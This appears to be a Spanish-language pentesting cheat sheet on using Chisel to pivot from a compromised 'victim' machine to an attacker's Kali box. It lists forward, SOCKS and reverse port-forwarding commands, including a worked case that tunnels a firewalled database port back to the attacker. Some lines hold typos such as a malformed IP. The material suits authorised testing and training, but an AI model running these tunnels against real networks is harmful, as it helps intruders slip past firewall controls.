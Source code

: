 # Chisel for pivoting

- [Descargar Chisel](https://github.com/jpillora/chisel/releases)

### Chisel en maquina victima:
- `./chisel server --socks5 --port 51234`

### Chisel en maquina atacante kali
- `./chisel client victim-box-ip:51234 127.0.0.1:8001:127.0.0.1:8001 127.0.0.1:8443:127.0.01:8443`
    - Con esto vemos esos puertos en nuestro local
- Si no también así: `./chisel client attack-box-ip:51234 R:8001:127.0.0.1:8001 R:8443:127.0.01:8443`

## Chisel con socks

### Maquina victima
- `./chisel server --socks5 --port 51234`

### Maquina atacante kali
- `./chisel client target-box-ip:51234 50080:socks`

# Reverse port forwarding
- Ejecutar chisel server en maquina atacante en modo reverso

### Chisel en maquina atacante kali
- `./chisel server --reverse --port 51234`

### Chisel en maquina victima
- `./chisel client attack-box-ip:51234 R:50080:socks`

#### Se puede combinar con ligolo + revert port por si no hay acceso SSH


## Ejemplo de uso de chisel para escuchar un puerto que el firewall no permite
- Caso hipotetico de que comprometimos un servidor que posee una base de datos pero no podemos acceder a ella porque el firewall no permite conexiones desde la red de la base de datos a la red de la victima.
- Hacemos un reverse port forwarding con chisel y escuchamos el puerto de la base de datos en la maquina atacante.

### Maquina atacante:
- `./chisel server --port 445 --reverse`

### Maquina victima:
- `.\chisel.exe client 192.168.45.210 R:1433:127.0.0.1:1433`
    - `chisel client KALI_IP R:PORT:LOCALHOST:PORT`
        - Si justo estamos usando el puerto 1433 en nuestro kali para otra cosa podemos usar otro puerto
        - ``.\chisel.exe client 192.168.45.210 R:15432:127.0.0.1:1433`